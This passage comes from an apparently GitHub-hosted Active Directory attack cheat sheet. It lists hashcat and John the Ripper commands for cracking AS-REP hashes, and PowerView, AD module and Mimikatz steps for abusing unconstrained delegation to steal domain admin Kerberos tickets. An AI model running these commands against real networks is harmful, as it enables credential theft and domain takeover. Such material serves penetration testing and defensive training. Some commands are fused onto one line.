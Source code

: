 3. Using bleeding-jumbo branch of John The Ripper or HashCat, we can brute-force the hashes offline:
    
    ```bash
    # JohnTheRipper (bleeding-jumbo branch)
    /usr/sbin/john --format=krb5asrep --wordlist=./10-million-password-list-top-1000000.txt john_asrep.kirbi
    
    # HashCat
    hashcat -m 18200 --force hashcat_asrep.kirbi ./10-million-password-list-top-1000000.txt
    ```
    

## Unconstrained Delegation

General/Basic or Unconstrained Delegation which allows the first hop server (e.g. web server) to request access to any service on any computer in the domain.

1. Discover domain computers which have unconstrained delegation enabled:
    
    ```powershell
    # PowerView
    Get-NetComputer -UnConstrained
    
    # ActiveDirectory Module
    Get-ADComputer -Filter {TrustedForDelegation -eq $True}Get-ADUser -Filter {TrustedForDelegation -eq $True}
    ```
    
2. Compromise the server(s) where Unconstrained delegation is enabled and trick or wait for a domain admin to connect to the service. We can use the following PowerView command to notify for a particular DA to access a resource on the web server:
    
    ```powershell
    # PowerView
    Invoke-UserHunter -ComputerName "ops-web" -Poll 100 -UserName "Administrator" -Delay 5 -Verbose
    ```
    
3. Run following commands on it to check if any DA ticket is available and then export it:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"sekurlsa::tickets"'Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
    ```
    